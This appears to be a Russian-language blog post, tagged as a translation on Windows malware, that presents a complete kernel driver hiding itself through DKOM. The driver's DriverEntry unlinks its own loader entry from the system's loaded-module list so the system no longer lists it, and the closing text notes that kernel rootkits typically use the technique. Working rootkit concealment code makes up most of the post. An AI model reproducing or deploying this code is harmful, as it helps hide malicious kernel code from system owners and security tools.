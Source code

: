 ```yaml
---
layout: post
title: Сокрытие загруженного драйвера с помощью DKOM
category: [translations]
tag: [windows, malware]
---
```


```cpp
#include <ntddk.h>
 
typedef struct _LDR_DATA_TABLE_ENTRY
{
     LIST_ENTRY InLoadOrderLinks;
     LIST_ENTRY InMemoryOrderLinks;
     LIST_ENTRY InInitializationOrderLinks;
     PVOID DllBase;
     PVOID EntryPoint;
     ULONG SizeOfImage;
     UNICODE_STRING FullDllName;
     UNICODE_STRING BaseDllName;
     ULONG Flags;
     USHORT LoadCount;
     USHORT TlsIndex;
     union
     {
          LIST_ENTRY HashLinks;
          struct
          {
               PVOID SectionPointer;
               ULONG CheckSum;
          };
     };
     union
     {
          ULONG TimeDateStamp;
          PVOID LoadedImports;
     };
     struct _ACTIVATION_CONTEXT * EntryPointActivationContext;
     PVOID PatchInformation;
     LIST_ENTRY ForwarderLinks;
     LIST_ENTRY ServiceTagLinks;
     LIST_ENTRY StaticLinks;
} LDR_DATA_TABLE_ENTRY, *PLDR_DATA_TABLE_ENTRY;
 
NTSTATUS DriverEntry(PDRIVER_OBJECT pDriverObject,PUNICODE_STRING pRegistryPath)
{
    PLDR_DATA_TABLE_ENTRY PrevEntry,ModuleEntry,NextEntry;
 
    DbgPrint("DriverSection address: %#x",pDriverObject->DriverSection);
    ModuleEntry=(PLDR_DATA_TABLE_ENTRY)pDriverObject->DriverSection;
 
    PrevEntry=(PLDR_DATA_TABLE_ENTRY)ModuleEntry->InLoadOrderLinks.Blink;
    NextEntry=(PLDR_DATA_TABLE_ENTRY)ModuleEntry->InLoadOrderLinks.Flink;
 
    PrevEntry->InLoadOrderLinks.Flink=ModuleEntry->InLoadOrderLinks.Flink;
    NextEntry->InLoadOrderLinks.Blink=ModuleEntry->InLoadOrderLinks.Blink;
 
    ModuleEntry->InLoadOrderLinks.Flink=(PLIST_ENTRY)ModuleEntry;
    ModuleEntry->InLoadOrderLinks.Blink=(PLIST_ENTRY)ModuleEntry;
 
    DbgPrint("Hidden driver loaded at address %#x",ModuleEntry->DllBase);
    return STATUS_SUCCESS;
}
```

Данный код удаляет наш драйвер из связанного списка загруженных системой драйверов. При загрузке драйвера, адрес его объекта передается в DriverEntry. Поле DriverSection в структуре DRIVER_OBJECT указывает на структуру LDR_DATA_TABLE_ENTRY, которая содержит информацию о загруженном драйвере, такую как базовый адрес, адрес точки входа и т.д. Система начинает определять загруженные драйверы проходясь по списку PsLoadedModuleList, который содержит ссылки на другие структуры, описывающие драйвера. При удалении из списка структуры нашего драйвера, драйвер не будет определен системой.

Вышеприведенная техника обычно используется ядерными руткитами.